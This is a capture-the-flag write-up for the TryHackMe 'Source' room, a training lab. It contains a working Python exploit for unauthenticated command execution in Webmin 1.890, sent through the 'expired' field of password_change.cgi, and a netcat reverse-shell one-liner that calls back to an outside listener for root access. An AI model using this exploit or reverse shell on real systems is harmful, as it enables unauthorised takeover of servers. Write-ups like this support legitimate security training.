




# Source (THM)

- https://tryhackme.com/room/source
- March 19, 2023
- easy

---

## Enumeration

### Nmap

```
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open     http           syn-ack     MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTPs/10000



- it is version 1.89
- after googling, there is Unauthenticated Remote Command Execution 

- I wrote python script to exploit this

```python
import requests
import sys

IP = sys.argv[1]
url = f"https://{IP}:10000"
vuln_url = url + "/password_change.cgi"

headers = {"Referer": f"{url}/session_login.cgi"}
cmd = "id"

payload = {
    "user": "idontknow",
    "pam": "",
    "expired": cmd,
    "old": "idontknow",
    "new1": "something",
    "new2": "something"
}
r = requests.post(vuln_url, data=payload, verify=False, headers=headers)

print(r.text)
```



- change cmd variable to get reverse shell -> `rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f`

- listen with nc and run exploit





- get `root` access directly

---